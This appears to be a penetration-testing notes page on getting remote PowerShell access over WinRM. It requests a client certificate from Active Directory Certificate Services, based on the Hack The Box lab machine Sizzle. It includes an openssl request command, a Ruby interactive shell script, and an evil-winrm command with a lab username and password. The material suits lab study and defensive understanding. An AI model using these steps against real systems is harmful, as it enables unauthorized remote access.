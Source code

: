 ```yaml
---
description: >-
  WinRM Certificate (password-less) based authentication
title: WinRM Certificate (password-less) based authentication              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Authentication]          # Change Templates to Writeup
tags: [active directory, authentication, winrm, passwordless based authentication]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### WINRM Certificate
We can authenticate via WINRM by creating a certificate, this is an AD CS feature. As we can check on this [notes](https://notes.offsec-journey.com/enumeration/winrm) all we need to do is follow this steps:

- Pre-requisites: Access to Active Directory Certificate Services
- Default location: `http://<IP>/certsrv/`
- Script Link: [win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)
  
```bash
#Certificate signing request
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr # All the options required are by default
```
Then we proceed to sign certificate as user by Sign-in to `http://10.10.10.103/certsrv`  and paste the content of amanda.csr into the text field:
![Winrm-auth-certificate](/assets/img/Pasted-image-20230129030758.png)
Download base64-encoded certificate:
![winrm-base64-cert](/assets/img/Pasted-image-20230129030850.png)
And modify the winrm_shell.rb script:
#Note `remember to run the script in the same folder as in certnew.cer and amanda.key`
```bash
require 'winrm'
# Author: Alamot
conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  :client_cert => 'certnew.cer',
  :client_key => 'amanda.key',
  :no_ssl_peer_verification => true
)
command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
Finally run the script and you're in:
```bash
ruby winrm_shell.rb
PS htb\amanda@SIZZLE Documents>
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:winrm-auth-cert)
### evil-winrm
It is also possible to authenticate via evil-winrm:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

Resources:
[Certificate authentication in Win-RM](http://www.hurryupandwait.io/blog/certificate-password-less-based-authentication-in-winrm)
[offsec journey notes](https://notes.offsec-journey.com/enumeration/winrm) 
[win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)

